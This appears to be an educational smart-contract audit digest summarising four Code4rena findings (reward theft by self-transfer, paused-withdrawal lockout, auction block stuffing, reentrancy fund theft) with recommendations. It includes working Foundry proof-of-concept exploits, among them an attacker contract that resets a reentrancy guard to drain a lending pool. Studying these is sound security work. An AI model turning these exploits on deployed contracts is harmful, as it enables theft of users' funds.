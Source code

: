 # ETAAcademy-Adudit: 2. Transfer

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>02. Transfer</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>dos</th>
          <td>transfer</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [High] Anyone can steal all distributed rewards

### Self-transfer

- Summary: By executing a self-transfer of tokens while in rebase, an attacker can mint additional tokens for themselves, effectively stealing all distributed rewards until that point. This occurs due to a discrepancy in updating share balances during the transfer process, leading to an incorrect calculation of token balances.
- Impact & Recommendation: Consequently, an attacker can repeatedly exploit this flaw to siphon off rewards intended for other users.To mitigate this issue, preventing self-transfers is recommended to prevent further exploitation and potential loss of funds.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#h-02-anyone-can-steal-all-distributed-rewards) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

  function testSelfTransfer() public {
    token.mint(address(this), 100e18);

    // Mint some tokens to bob and alice
    token.mint(alice, 10e18);
    token.mint(bobby, 10e18);
    // Bob enters the rebase since he wants to earn some profit
    vm.prank(bobby);
    token.enterRebase();
    // Tokens are distributed among all rebase users
    token.distribute(10e18);
    // Nobody claims the rebase rewards for 10 days - just for an example
    // Alice could frontrun every call that changes the unmintedRebaseRewards atomically
    // and claim all the rewards for herself
    vm.warp(block.timestamp + 10 days);
    // --------------------- ATOMIC TX ---------------------
    vm.startPrank(alice);
    token.enterRebase();
    uint256 token_balance_alice_before = token.balanceOf(alice);
    // Here the max she could transfer and steal is the unmintedRebaseRewards() amount
    // but we are using 3e18 just for an example as 3e18 < unmintedRebaseRewards()
    // since there is no public getter for unmintedRebaseRewards
    token.transfer(alice, 3e18);
    token.exitRebase();
    vm.stopPrank();
    uint256 token_balance_alice = token.balanceOf(alice);
    // --------------------- END ATOMIC TX ---------------------
    console.log("Token balance alice before : ", token_balance_alice_before);
    console.log("Token balance alice after  : ", token_balance_alice);
    console.log("--------------------------------------------------");
    console.log("Alice profit credit        : ", token_balance_alice - token_balance_alice_before);
  }


  ```

  </details>

## 2. [Medium] Inability to withdraw funds for certain users due to whenNotPaused modifier in RateLimitedMinter

### EmergencyWithdraw for paused protocol

- Summary: The GUARDIAN role is meant to freeze new protocol usage but allow fund withdrawals. However, the whenNotPaused modifier in the RateLimitedMinter.mint() function prevents users from withdrawing funds if they have CREDIT tokens staked with pending guild rewards. This occurs because the SurplusGuildMinter.unstake() function, called during withdrawal, tries to mint rewards through RateLimitedMinter.mint() by getRewards(), which fails if the protocol is paused.

- Impact & Recommendation: Introduce emergencyWithdraw for users to withdraw funds, excluding rewards when the protocol is paused.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-02-inability-to-withdraw-funds-for-certain-users-due-to-whennotpaused-modifier-in-ratelimitedminter) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    function unstake(address term, uint256 amount) external {
        // apply pending rewards
        (, UserStake memory userStake, bool slashed) = getRewards(
            msg.sender,
            term
        );
    ...


    function getRewards(
        address user,
        address term
    )
        public
        returns (
            uint256 lastGaugeLoss, // GuildToken.lastGaugeLoss(term)
            UserStake memory userStake, // stake state after execution of getRewards()
            bool slashed // true if the user has been slashed
        )
    {
    ...

                // forward rewards to user
            if (guildReward != 0) {
                RateLimitedMinter(rlgm).mint(user, guildReward);
                emit GuildReward(block.timestamp, user, guildReward);
            }
    ...

    function mint(
        address to,
        uint256 amount
    ) external onlyCoreRole(role) whenNotPaused {
        _depleteBuffer(amount); /// check and effects
        IERC20Mintable(token).mint(to, amount); /// interactions
    }


  ```

  </details>

## 3. [Medium] Auction manipulation by block stuffing and reverting on ERC-777 hooks

### Block stuffing attack on the auction

- Summary: A low immutable auction duration set in the deployment script can enable profitable block stuffing attacks on desired Layer 2 (L2) chains. The attacker borrows a loan to receive credit tokens and deposit collateral into the protocol. After the first partial duration, the attacker fails to repay the loan and initiates an auction. The attacker exploits the system by preventing bids until the midpoint, reducing costs, then begins block stuffing to acquire collateral by less credit tokens. Ultimately, the attacker may acquire almost the full loan amount, surpassing the gas cost for block stuffing.

- Impact & Recommendation: The attacker can manipulate the auction to acquire full collateral for almost zero credit tokens, resulting in loss for all stakers on the term. Increasing auction duration and implementing fixes to prevent bad debt from collateral token blacklisting can mitigate such attacks and prevent total loss of stake for lenders.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-16-auction-manipulation-by-block-stuffing-and-reverting-on-erc-777-hooks) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function bid(bytes32 loanId) external {
        ...
        LendingTerm(_lendingTerm).onBid(
            loanId,
            msg.sender,
            auctions[loanId].collateralAmount - collateralReceived, // collateralToBorrower
            collateralReceived, // collateralToBidder
            creditAsked // creditFromBidder
        );
        ...
    }
    function onBid(
        bytes32 loanId,
        address bidder,
        uint256 collateralToBorrower,
        uint256 collateralToBidder,
        uint256 creditFromBidder
    ) external {
        ...
        int256 pnl;
        uint256 interest;
        if (creditFromBidder >= principal) {
            interest = creditFromBidder - principal;
            pnl = int256(interest);
        } else {
            pnl = int256(creditFromBidder) - int256(principal);
            principal = creditFromBidder;
            require(
                collateralToBorrower == 0,
                "LendingTerm: invalid collateral movement"
            );
        }
        ...
        // handle profit & losses
        if (pnl != 0) {
            // forward profit, if any
            if (interest != 0) {
                CreditToken(refs.creditToken).transfer(
                    refs.profitManager,
                    interest
                );
            }
            ProfitManager(refs.profitManager).notifyPnL(address(this), pnl);
        }
        ...
    }
    function notifyPnL(
        address gauge,
        int256 amount
    ) external onlyCoreRole(CoreRoles.GAUGE_PNL_NOTIFIER) {
        ...
        // handling loss
        if (amount < 0) {
            uint256 loss = uint256(-amount);
            // save gauge loss
            GuildToken(guild).notifyGaugeLoss(gauge);
            // deplete the term surplus buffer, if any, and
            // donate its content to the general surplus buffer
            if (_termSurplusBuffer != 0) {
                termSurplusBuffer[gauge] = 0;
                emit TermSurplusBufferUpdate(block.timestamp, gauge, 0);
                _surplusBuffer += _termSurplusBuffer;
            }
            if (loss < _surplusBuffer) {
                // deplete the surplus buffer
                surplusBuffer = _surplusBuffer - loss;
                emit SurplusBufferUpdate(
                    block.timestamp,
                    _surplusBuffer - loss
                );
                CreditToken(_credit).burn(loss);
            }
        } ...
    }
    function notifyGaugeLoss(address gauge) external {
        require(msg.sender == profitManager, "UNAUTHORIZED");
        // save gauge loss
        lastGaugeLoss[gauge] = block.timestamp;
        emit GaugeLoss(gauge, block.timestamp);
    }
    /// @notice apply a loss that occurred in a given gauge
    /// anyone can apply the loss on behalf of anyone else
    function applyGaugeLoss(address gauge, address who) external {
        // check preconditions
        uint256 _lastGaugeLoss = lastGaugeLoss[gauge];
        uint256 _lastGaugeLossApplied = lastGaugeLossApplied[gauge][who];
        require(
            _lastGaugeLoss != 0 && _lastGaugeLossApplied < _lastGaugeLoss,
            "GuildToken: no loss to apply"
        );
        // read user weight allocated to the lossy gauge
        uint256 _userGaugeWeight = getUserGaugeWeight[who][gauge];
        // remove gauge weight allocation
        lastGaugeLossApplied[gauge][who] = block.timestamp;
        _decrementGaugeWeight(who, gauge, _userGaugeWeight);
        if (!_deprecatedGauges.contains(gauge)) {
            totalTypeWeight[gaugeType[gauge]] -= _userGaugeWeight;
            totalWeight -= _userGaugeWeight;
        }
        // apply loss
        _burn(who, uint256(_userGaugeWeight));
        emit GaugeLossApply(
            gauge,
            who,
            uint256(_userGaugeWeight),
            block.timestamp
        );
    }

  ```

  </details>

## 4. [High] Exploitation of the receive Function to Steal Funds

### Reentrancy by receive function

- Summary: The contract has a reentrancy vulnerability due to a flaw in its guard mechanism. Attackers can reset the guard using a receive function, allowing them to execute unauthorized withdrawals. They can deposit ETH, borrows some, then initiates a withdrawal, resetting the guard to pay off their own loan and withdraw additional funds.

- Impact & Recommendation: The vulnerability enables unauthorized fund withdrawals from the contract. The recommendation is to add a reentrancy check to the \_sendValue function to prevent exploitation, without disrupting transfers from the WETH address.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-02-wise-lending#h-01-exploitation-of-the-receive-function-to-steal-funds) & [Report](https://code4rena.com/reports/2024-02-wise-lending)

  <details><summary>POC</summary>

  ```solidity
    // import ContractA
    import "./ContractA.sol";
    // import MockErc20
    import "./MockContracts/MockErc20.sol";
    contract WiseLendingShutdownTest is Test {
        ...
        ContractA public contractA;
        function _deployNewWiseLending(bool _mainnetFork) internal {
            ...
            contractA = new ContractA(address(FEE_MANAGER_INSTANCE), payable(address(LENDING_INSTANCE)));
            ...
        }
        function testExploitReentrancy() public {
            uint256 depositValue = 10 ether;
            uint256 borrowAmount = 2 ether;
            vm.deal(address(contractA), 2 ether);
            ORACLE_HUB_INSTANCE.setHeartBeat(WETH_ADDRESS, 100 days);
            POSITION_NFTS_INSTANCE.mintPosition();
            uint256 nftId = POSITION_NFTS_INSTANCE.tokenOfOwnerByIndex(address(this), 0);
            LENDING_INSTANCE.depositExactAmountETH{value: depositValue}(nftId);
            LENDING_INSTANCE.borrowExactAmountETH(nftId, borrowAmount);
            vm.prank(address(LENDING_INSTANCE));
            MockErc20(WETH_ADDRESS).transfer(address(FEE_MANAGER_INSTANCE), 1 ether);
            // check contractA balance
            uint ethBalanceStart = address(contractA).balance;
            uint wethBalanceStart = MockErc20(WETH_ADDRESS).balanceOf(address(contractA));
            //total
            uint totalBalanceStart = ethBalanceStart + wethBalanceStart;
            console.log("totalBalanceStart", totalBalanceStart);
            // deposit using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.depositExactAmountETHMint{value: 2 ether}();
            vm.stopPrank();
        FEE_MANAGER_INSTANCE._increaseFeeTokens(WETH_ADDRESS, 1 ether);

            // withdraw weth using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.withdrawExactAmount(2, WETH_ADDRESS, 1 ether);
            vm.stopPrank();
            // approve feemanager for 1 weth from contractA
            vm.startPrank(address(contractA));
            MockErc20(WETH_ADDRESS).approve(address(FEE_MANAGER_INSTANCE), 1 ether);
            vm.stopPrank();
            // borrow using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.borrowExactAmount(2,  WETH_ADDRESS, 0.5 ether);
            vm.stopPrank();
            // Payback amount
            //499537556593483218
            // withdraw using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.withdrawExactAmountETH(2, 0.99 ether);
            vm.stopPrank();
            // check contractA balance
            uint ethBalanceAfter = address(contractA).balance;
            uint wethBalanceAfter = MockErc20(WETH_ADDRESS).balanceOf(address(contractA));
            //total
            uint totalBalanceAfter = ethBalanceAfter + wethBalanceAfter;
            console.log("totalBalanceAfter", totalBalanceAfter);
            uint diff = totalBalanceAfter - totalBalanceStart;
            assertEq(diff > 5e17, true, "ContractA profit greater than 0.5 eth");
        }
    // SPDX-License-Identifier: -- WISE --
    pragma solidity =0.8.24;
    // import lending and fees contracts
    import "./WiseLending.sol";
    import "./FeeManager/FeeManager.sol";
    contract ContractA {
        address public feesContract;
        address payable public lendingContract;
        address constant WETH_ADDRESS = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
        constructor(address _feesContract, address payable _lendingContract) payable {
            feesContract = _feesContract;
            lendingContract = _lendingContract;
        }
        fallback() external payable {
            if (msg.sender == lendingContract) {
                // send lending contract 0.01 eth to reset reentrancy flag
                (bool sent, bytes memory data) = lendingContract.call{value: 0.01 ether}("");
                //paybackBadDebtForToken
                FeeManager(feesContract).paybackBadDebtForToken(2, WETH_ADDRESS, WETH_ADDRESS, 499537556593483218);
            }
        }
    }


  ```

  </details>
